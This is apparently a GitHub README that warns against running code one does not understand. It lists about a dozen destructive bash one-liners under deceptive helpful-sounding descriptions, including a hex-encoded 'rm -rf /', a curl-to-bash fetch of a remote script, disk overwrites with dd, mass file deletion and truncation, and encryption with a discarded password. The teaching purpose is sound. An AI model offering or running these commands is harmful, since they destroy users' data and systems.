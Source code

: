 # My one page argument for learning to code

## **_NEVER_** run code you don't understand

I often hear people call themselves 'Copy and paste' coders. And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things. A better method is to find code, see what is done and then recreate it, and at a bare minimal, copy it, but know exactly what it does. \
Here is my small example of code that has unintended results.


> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands

A. Greatly simplifies document syntax:

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space:

``` bash
du ~/ | grep -o '/.*' | xargs rm -r --
```

C. Relinks your files to improve efficentcy:

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage:

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space:

``` bash
command $(echo 7375646f20726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know:

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

G. Frees up uneccesary space:

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space:

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes:

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life:

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \;
```

K. Keep logs of files in the home folder utilising your current files:

```bash
find ~/ -type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

L. Cut down on disk space without removing a file:

```bash
n=`df -i | grep "/$" | awk '{print $6}'`;eval `stat -s /`;for i in $(seq $n 0);do [ -f /.vol/$st_dev/$i ] && echo >/.vol/$st_dev/$i; done            
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
6. Rinse and repeat
